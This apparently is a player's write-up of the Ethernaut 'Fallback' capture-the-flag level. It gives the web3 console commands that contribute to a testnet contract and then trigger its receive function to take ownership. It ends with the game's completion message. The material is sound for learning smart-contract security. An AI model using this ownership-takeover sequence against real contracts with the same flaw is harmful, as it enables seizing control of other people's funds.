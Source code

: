 
## Web3 console cmd
Contract link
https://rinkeby.etherscan.io/address/0xa74746de333958789c0e57aeb12515a050f438ff

	await contract.address
		'0xA74746dE333958789c0e57Aeb12515a050F438FF'

	await contract.owner()
		'0x9CB391dbcD447E645D6Cb55dE6ca23164130D008'

	contract.abi
	(7) [{…}, {…}, {…}, {…}, {…}, {…}, {…}]
		0: {inputs: Array(0), stateMutability: 'nonpayable', type: 'constructor', constant: undefined, payable: undefined}
		1: {inputs: Array(0), name: 'contribute', outputs: Array(0), stateMutability: 'payable', type: 'function', …}
		2: {inputs: Array(1), name: 'contributions', outputs: Array(1), stateMutability: 'view', type: 'function', …}
		3: {inputs: Array(0), name: 'getContribution', outputs: Array(1), stateMutability: 'view', type: 'function', …}
		4: {inputs: Array(0), name: 'owner', outputs: Array(1), stateMutability: 'view', type: 'function', …}
		5: {inputs: Array(0), name: 'withdraw', outputs: Array(0), stateMutability: 'nonpayable', type: 'function', …}
		6: {stateMutability: 'payable', type: 'receive', constant: undefined, payable: true}

	call fonction contribute
	await sendTransaction({from: "0x6E81372783990a13715857888B32325621DB44E2", to: "0xA74746dE333958789c0e57Aeb12515a050F438FF", value: toWei("0.0001"), data: "0xd7bb99ba"})
		https://rinkeby.etherscan.io/tx/0x665a581bae30d4ec1e8bfb857ebc88b9457669cf3040a2d32d9000db042df2b1

	send eth to triggert callback function receive and become owner of the contract
	await sendTransaction({from: "0x6E81372783990a13715857888B32325621DB44E2", to: "0xA74746dE333958789c0e57Aeb12515a050F438FF", value: toWei("0.0001")})
		https://rinkeby.etherscan.io/tx/0x911f0a3171d06e017d3194b4660eeb850e9d059a8f3e5cffd6fe4b8466b8e8af

	await contract.owner()
		'0x6E81372783990a13715857888B32325621DB44E2'

	await getBalance(contract.address)
		'0.0002'

	
## END
Fallback
Level completed!
Difficulty 1/10

You know the basics of how ether goes in and out of contracts, including the usage of the fallback method.

You've also learnt about OpenZeppelin's Ownable contract, and how it can be used to restrict the usage of some methods to a privileged address.

Move on to the next level when you're ready!
